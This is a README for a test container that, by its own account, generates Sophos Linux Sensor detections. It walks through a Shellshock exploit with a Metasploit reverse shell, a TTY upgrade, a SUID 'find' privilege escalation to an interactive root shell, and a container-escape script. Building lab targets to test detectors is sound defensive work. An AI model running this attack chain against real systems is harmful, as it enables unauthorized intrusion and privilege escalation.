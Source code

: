 # sophShock

This image is for generating Sophos Linux Sensor detections.
For testing purposes only, advised not to run this in a public facing manner.

#Walk Thru:
- docker build . -t <name_of_container:tag>
- docker run -dit -p 8080:80 --privileged <name_of_container:tag>

#Metasploit:
- search shellshock
- use exploit/multi/http/apache_mod_cgi_bash_env_exec

- set RHOST <ip addr>
- set RPORT 8080
- set LHOST <ip addr>
- set LPORT <reverse listening port>
- set TARGETURI /cgi-bin/shockme.cgi 
- run 

# establish tty
python -c 'import pty; pty.spawn("/bin/bash")'

# switch to user with sudo privileges
Perhaps one of the users has something interesting?
getent group sudo


# find files with SUID bit set
find / -perm -4000 2>/dev/null

# exploit find binary
sudo find . -exec /bin/bash -i \; -quit
(interactive shell detection from SLS)

# run escape.sh from root directory
(userland container escape detection)
 - outputs are in /output



#references:
- https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1
- https://github.com/SecurityWeekly/vulhub-lab/tree/master/bash/shellshock

